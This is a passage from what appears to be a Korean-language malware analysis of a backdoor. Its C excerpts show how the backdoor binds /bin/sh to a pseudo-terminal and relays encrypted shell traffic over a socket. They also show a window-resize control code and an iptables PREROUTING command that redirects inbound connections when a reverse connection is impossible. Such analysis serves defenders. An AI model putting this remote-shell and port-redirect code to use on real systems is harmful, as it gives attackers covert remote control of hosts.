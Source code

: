- `ptym_open()`은 `/dev/ptmx`를 열어 마스터 PTY를 반환하고 대응하는 슬레이브 TTY 경로(`/dev/pts/N`)를 가져온다.
- `ptys_open()`은 슬레이브 TTY를 열고 IOCTL로 추가 설정을 적용한다.

```c
// 쉘 실행
dup2(tty, 0); dup2(tty, 1); dup2(tty, 2);
execve("/bin/sh", argvv, envp);
```

- 슬레이브 TTY를 stdin, stdout, stderr에 연결하고, `/bin/sh`를 `execve()`로 실행하여 대화형 쉘을 제공한다.

### 9. 대화형 쉘 I/O 리디렉션 및 제어

이후 `select()` 시스템 콜을 통해 PTY와 소켓의 입출력을 감시하며 데이터를 양방향 전송한다.

```c
while (1) {
    FD_ZERO(&fds);
    FD_SET(pty, &fds);
    FD_SET(sock, &fds);

    select(max(pty, sock) + 1, &fds, NULL, NULL, NULL);

    if (FD_ISSET(pty, &fds)) {
        int count = read(pty, buf, BUF);
        if (count <= 0) break;
        cwrite(sock, buf, count); // 암호화 후 전송
    }

    if (FD_ISSET(sock, &fds)) {
        int count = cread(sock, buf, BUF); // 수신 후 복호화
        if (count <= 0) break;
        write(pty, buf, count);
    }
}
```

특수 제어 코드 `0x0b` (ECHAR)가 수신되면, 그 다음 4바이트를 읽어 터미널 창 크기를 설정한다.

```c
if (buf[i] == ECHAR) {
    struct winsize ws;
    ws.ws_col = (buf[i+1] << 8) + buf[i+2];
    ws.ws_row = (buf[i+3] << 8) + buf[i+4];
    ioctl(pty, TIOCSWINSZ, &ws);
    kill(0, SIGWINCH); // 쉘에 SIGWINCH 전달
}
```

### 10. iptables를 통한 포트 포워딩 및 제거

- 역방향 연결이 불가능한 상황에서는 iptables 명령어를 사용하여 포트를 리디렉션함으로써 외부 접속을 유도한다.

  - e.g. 외부에서 `192.168.0.100:12345`로 접속 시 내부에서는 `127.0.0.1:54321`로 전달되도록 설정

```c
snprintf(cmd, sizeof(cmd), "/sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d", ip, fromport, toport);
system(cmd);
```

